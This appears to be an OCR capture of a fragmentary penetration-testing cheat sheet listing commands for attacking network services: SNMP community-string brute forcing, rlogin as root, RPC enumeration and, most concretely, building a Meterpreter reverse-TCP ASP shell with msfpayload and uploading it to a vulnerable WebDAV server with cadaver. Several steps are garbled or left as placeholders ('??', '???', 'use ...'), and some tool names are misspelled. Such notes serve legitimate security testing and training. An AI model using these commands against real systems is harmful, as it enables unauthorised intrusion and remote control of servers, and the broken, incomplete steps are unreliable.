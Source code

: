 ### NTP

```bash
# Use Metasploit Auxiliarys
metasploit> use ...
```

### SNMP
```bash
# Use onsixtyone tool and a dictionary
$ onesixtyone -c /usr/share/doc/onesixtyone/dict.txt

# Use metasploit SNP module
metasploit> ?? # Use Metasploit Module snmp_enum

# Use snmpcheck
$ snmpcheck -t snmpservice
```

### rservices

```bash
$ rwho 192.168.0.1
$ rlogin -l root 192.168.0.17
```

### RPC Services
```bash
$ rpcinfo -p

metasploit> ?? # Use Endpoint_mapper module
```

## Web Services

### WebDAV

Metasploit Auxiliarys

1) Upload shell to Vulnerable WebDAV directory:

   ```
   $ msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.20 LPORT=4444 R | msfencode -t asp -o shell.asp
   ```

1) Run cadaver?

   ```
   $ cadaver http://192.168.0.60/
   ```

1) ???

   ```
   $ put shell.asp shell.txt
   ```
